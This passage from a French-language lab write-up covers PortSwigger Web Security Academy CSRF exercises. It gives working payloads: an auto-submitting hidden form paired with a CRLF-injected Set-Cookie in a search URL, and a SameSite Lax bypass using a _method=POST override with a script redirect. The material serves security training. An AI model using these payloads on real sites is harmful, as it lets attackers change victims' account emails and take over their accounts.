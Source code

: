 
On observe que le token CSRF est dupliqué dans le header du cookie.

Comme sur le lab précédent, on observe également que la fonction de recherche n'a pas de protection CSRF. On va donc pouvoir l'exploiter pour injecter un faux cookie dans le navigateur de la victime.

PoC : 

    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
        <form action="https://0a1200480460a6e18259e87800e20073.web-security-academy.net/my-account/change-email" method="POST">
          <input type="hidden" name="email" value="autre_adresse5@gmail.com" />
          <input type="hidden" name="csrf" value="fake" />
          <input type="submit" value="Submit request" />
        </form>
    <img src="https://0a1200480460a6e18259e87800e20073.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
      </body>
    </html>


### SameSite Lax bypass via method override

En observant la requête de changement d'adresse mail, on voit qu'elle ne contient pas de mécanisme anti-CSRF, on voit juste un header de sécurité dans la réponse : 

    HTTP/2 302 Found
    Location: /my-account
    X-Frame-Options: SAMEORIGIN
    Content-Length: 0
    
On voit le même header X-Frame-Options pour la requête POST du login mais il n'y a pas de restriction SameSite explicite sur le header Set-Cookie.

Voir : https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie 


Envoyer la requête "POST /my-account/change-email" sur le Repeater et la changer en GET. On voit que l'endpoint n'accepte que les requêtes POST.

Utiliser la technique de l'overriding grâce au paramètre "_method" : 

    GET /my-account/change-email?email=test2@gmail.com&_method=POST HTTP/1.1
    
Notre adresse est bien changée en "test2@gmail.com"

Construire un exploit reproduisant cette requête.

Exemple : 

    <script>
        document.location = "https://0ab9007b04c8f44081acee7600690022.web-security-academy.net/my-account/change-email?email=test444@gmail.com&_method=POST";
    </script>

### SameSite Strict bypass via client-side redirect
